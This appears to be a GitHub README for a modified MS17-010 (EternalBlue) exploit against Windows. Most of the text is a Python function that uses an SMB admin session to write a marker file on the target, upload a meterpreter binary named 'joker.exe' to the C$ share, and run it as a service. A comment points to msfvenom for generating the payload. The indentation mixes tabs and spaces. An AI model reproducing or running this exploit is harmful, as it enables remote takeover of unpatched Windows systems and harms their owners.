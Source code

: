# MS17-010 exploit
MS17-010 exploit for Windows 2000 and later by sleepya mod by joker2a

Add you meterpreter (joker.exe) :

def smb_pwn(conn, arch):
	smbConn = conn.get_smbconnection()
	
	print('creating file c:\\pwned.txt on the target')
	tid2 = smbConn.connectTree('C$')
	fid2 = smbConn.createFile(tid2, '/pwned.txt')
	smbConn.closeFile(tid2, fid2)
	
	smb_send_file(smbConn, 'joker.exe', 'C', '/joker.exe')
        service_exec(conn, r'cmd /c c:\\joker.exe')
        print ('payload exec')
        smbConn.disconnectTree(tid2)

        #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
	# Note: there are many methods to get shell over SMB admin session
	# a simple method to get shell (but easily to be detected by AV) is
	# executing binary generated by "msfvenom -f exe-service ..."
